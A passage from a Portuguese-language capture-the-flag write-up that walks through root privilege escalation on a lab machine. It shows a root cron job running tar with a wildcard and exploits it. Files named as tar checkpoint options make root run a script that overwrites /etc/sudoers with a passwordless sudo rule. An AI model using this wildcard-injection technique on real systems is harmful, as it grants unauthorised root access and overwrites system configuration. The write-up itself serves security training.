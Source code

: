 ## Segunda flag
*Escalate your privileges and obtain **root.txt***

Lembra do arquivo **/tmp/andre_backup.tar.gz**?
**Cron** é uma utilidade no **mundo Linux** para automatização de tarefas, no caso de nossa máquina alvo, analisando o **/etc/crontab** vemos que existe um backup do diretório **/home/andre/backup** sendo feito para aquele arquivo que achamos com o **linpeas.sh** anteriormente. Aqui, temos um exemplo de uma **Wildcard Injection**:

```
andre@cmess:~/backup$ cat /etc/crontab  
# /etc/crontab: system-wide crontab  
# Unlike any other crontab you don't have to run the `crontab'  
# command to install the new version when you edit this file  
# and files in /etc/cron.d. These files also have username fields,  
# that none of the other crontabs do.  
  
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
# m h dom mon dow user  command  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

**Por que** isso caracteriza uma vunerabilidade de **Wildcard Injection**?

A **última entrada** do **output** de nosso **cat** nos diz que:
A cada **2 minutos**, através do usuário **root**, **TODOS** (indicado pelo **asterísco**) os arquivos na pasta **/home/andre/backup** são comprimidos em um **tar**, que então é enviado até o diretório **/tmp/**

Podemos explorar isso e obter privilégio **root** inserindo aqui um **código malicioso** que irá **remover a necessidade do usuário andre de fornecer uma senha ao executar o programa sudo**. Este código será executado pelo nosso **cron**:

```
andre@cmess:~/backup$ echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > safeprogram.sh  
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh safeprogram.sh"  
andre@cmess:~/backup$ echo "" > --checkpoint=1
andre@cmess:~/backup$ ls -l  
total 16  
-rw-rw-r-- 1 andre andre  1 Jun  1 07:59 --checkpoint=1  
-rw-rw-r-- 1 andre andre  1 Jun  1 07:59 --checkpoint-action=exec=sh safeprogram.sh  
-rwxr-x--- 1 andre andre 51 Feb  9  2020 note  
-rw-rw-r-- 1 andre andre 53 Jun  1 07:58 safeprogram.sh
```
